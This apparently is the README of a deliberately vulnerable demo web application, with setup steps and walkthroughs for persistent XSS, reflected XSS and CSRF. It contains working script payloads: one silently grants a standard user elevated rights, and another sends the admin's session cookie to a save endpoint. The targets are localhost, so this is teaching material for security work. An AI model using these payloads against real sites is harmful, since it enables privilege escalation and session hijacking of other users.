 ##Starting xs_demo

Please note: Maven is required to use this software.

* Go to the app folder and run the Maven Jetty Plugin by using the following command: `$ mvn jetty:run`
* Deployed URL: `http://localhost:8080/`
* To stop the running Jetty server: `$ Ctrl + C`

##Persistent XSS

* Log in as standard user (username: user, password: user) and go to the **Edit User** dialog
* Copy the following script and paste it to the field **Additional Info**
* `<script>$.post( "http://localhost:8080/user_edit", { username: "user", password: "user", password2: "user", email: "user@web.de", newUser: "false", vip: "true" } )</script>`

* Log in as admin (username: admin, password: admin) and got to the **User List** dialog. The script above will be executed now sending a post request to the server and gives admin rights to the user.

##Non-persistent XSS

* As admin open the following link
* `http://localhost:8080/home?q=%3Cscript%3E$.get%28%22http://localhost:8080/save%22,%20{%20in:%20document.cookie%20}%29%3C/script%3E`
* The cookie of the current session will be written in the file **buffer.txt** that is located in the app folder

##CSRF

* As admin open the following static html page
* `http://localhost:8080/static/csrf_example.html`
* The script that will be executed after the image on the page is loaded is the same script like in the persistent xss example. This will give admin rights to the standard user again.
